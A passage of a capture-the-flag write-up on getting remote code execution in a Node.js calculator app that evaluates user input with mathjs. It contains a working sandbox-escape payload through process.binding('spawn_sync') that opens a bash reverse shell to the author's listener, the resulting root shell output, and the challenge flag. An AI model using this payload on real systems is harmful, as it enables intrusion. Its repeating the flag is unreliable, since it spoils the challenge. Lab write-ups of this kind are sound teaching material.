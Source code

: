 This seems to just output a whole lot of data, maybe a way to dump memory from the box. Maybe I can see other users things. Oh well, I'll continue do research on how to pwn this box.

Found out that using process.binding you can bind to spawn_sync. Using this page [RCE in fast redact](https://itnext.io/how-i-exploited-a-remote-code-execution-vulnerability-in-fast-redact-9e69fa35572f) I see he is using the binding to create the spawn_sync command. So I steal this code and minimize it as shown below, start `nc -nlvp 1234` on my server and execute.

```javascript
spawn_sync=process.binding("spawn_sync"),normalizeSpawnArguments=function(t,i,e){if(Array.isArray(i)?i=i.slice(0):(e=i,i=[]),void 0===e&&(e={}),(e=Object.assign({},e)).shell){let r=[t].concat(i).join(" ");t="string"==typeof e.shell?e.shell:"/bin/sh",i=["-c",r]}"string"==typeof e.argv0?i.unshift(e.argv0):i.unshift(t);var n=e.env||process.env,o=[];for(var s in n)o.push(s+"="+n[s]);return{file:t,args:i,options:e,envPairs:o}},(spawnSync=function(){var t,i=normalizeSpawnArguments.apply(null,arguments),e=i.options;for(e.file=i.file,e.args=i.args,e.envPairs=i.envPairs,e.stdio=[{type:"pipe",readable:!0,writable:!1},{type:"pipe",readable:!1,writable:!0},{type:"pipe",readable:!1,writable:!0}],e.input&&((e.stdio[0]=util._extend({},e.stdio[0])).input=e.input),t=0;t<e.stdio.length;t++){var r=e.stdio[t]&&e.stdio[t].input;if(null!=r){var n=e.stdio[t]=util._extend({},e.stdio[t]);isUint8Array(r)?n.input=r:n.input=Buffer.from(r,e.encoding)}}console.log(e);var o=spawn_sync.spawn(e);if(o.output&&e.encoding&&"buffer"!==e.encoding)for(t=0;t<o.output.length;t++)o.output[t]&&(o.output[t]=o.output[t].toString(e.encoding));return o.stdout=o.output&&o.output[1],o.stderr=o.output&&o.output[2],o.error&&(o.error=o.error+"spawnSync "+i.file,o.error.path=i.file,o.error.spawnargs=i.args.slice(1)),o})("/bin/bash",["-c","bash -i >& /dev/tcp/IP/1234 0>&1 &"]);
```

```bash
Listening on 0.0.0.0 1234
Connection received on 20.100.250.159 5024
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@grinchcalculator--eilaypv-7fcb769b5d-ggq25:/app# ls -lah
ls -lah
total 68K
drwxr-xr-x  1 root root 4.0K Dec 15 11:30 .
drwxr-xr-x  1 root root 4.0K Dec 15 11:11 ..
-rw-r--r--  1 root root  653 Dec 13 03:24 index.js
drwxr-xr-x 65 root root 4.0K Dec 13 03:25 node_modules
-rw-r--r--  1 root root  43K Dec 13 03:25 package-lock.json
-rw-r--r--  1 root root  279 Dec 13 03:24 package.json
drwxr-xr-x  2 root root 4.0K Dec 13 03:25 static
```

Bingo! Bash access granted. Now just look for the flag, started by catting the index.js file:


```javascript
const math = require("mathjs");
const express = require("express");
const path = require("path");
const flag = "${#N3V3R_7RU5T_L|B5_743Y_@R3_3V|7}";
const app = express();
app.use(express.json());
app.use(express.static(path.join(__dirname, "static")));
app.post("/evaluate",(req,res)=>{
    if(!req.body.exp){
        res.status(400).json({"error":"You need to send the expression as the exp query parameter..."});
    }
    try{
        let result = math.eval(req.body.exp);
        res.status(200).json({"result": result});
    } catch(error){
        res.status(400).json({"error":error});
    }
});

app.listen(80, ()=>{
```